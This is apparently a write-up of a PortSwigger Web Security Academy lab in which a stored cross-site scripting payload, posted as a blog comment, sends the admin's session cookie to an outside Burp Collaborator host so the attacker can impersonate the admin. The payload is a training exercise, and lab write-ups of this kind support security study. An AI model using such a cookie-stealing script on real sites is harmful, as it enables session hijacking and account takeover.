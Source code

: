 # XSS - Exploiting cross-site scripting to steal cookies

## 📌 Lab Details
- **Title**: Exploiting cross-site scripting to steal cookies
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/0c567d752c198d06a7a3e449249118740a13247871b21c6aab286522fe52f6aa?referrer=%2fweb-security%2fcross-site-scripting%2fexploiting%2flab-stealing-cookies

## 🔍 Summary
This lab has a stored XSS in blog comments. Inject a script that sends the victim's session cookie to Burp Collaborator. When the admin views the comment, their cookie is stolen. Use that cookie to impersonate the admin and access `/my-account` to solve the lab.

## 🛠 Steps to Solve
1. Open **Burp Collaborator** and copy the URL: `q8z4bhubwqpi7ycna7wamc2kbbh25sth.oastify.com`
2. Inject the exploit comment:
   ```sh
   <script>
   fetch(https://q8z4bhubwqpi7ycna7wamc2kbbh25sth.oastify.com, {
   method: 'POST',
   mode: 'no-cors',
   body: document.cookie
   });
   </script>
3. Once the admin loads the comment, the script runs thier **browser**, and sends **their cookie** to Burp Collaborator.
4. Click **Poll now** in the Burp Collaborator.
5. Use the **admin's session cookie** to log in to the account.
   
## 📖 Key Takeaways
- **Burp Collaborator** lets you recieve external requests from victims.
- `document.cookie` gives you the victim's session if JavaScript runs.
- If you have someone's session cookie, you can impersonate them.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/bf13b1a8-3422-4da8-9861-df9ec7a1779b)
![image](https://github.com/user-attachments/assets/200abf6c-33a8-4cfb-bf31-9b7c1e374424)
![image](https://github.com/user-attachments/assets/92581280-29ab-4b83-a747-57a8a3040f54)
![image](https://github.com/user-attachments/assets/713bfd1d-b176-4fbf-b683-11926b764eda)
![image](https://github.com/user-attachments/assets/12f39fde-e901-4ee6-9986-ebb118671c69)

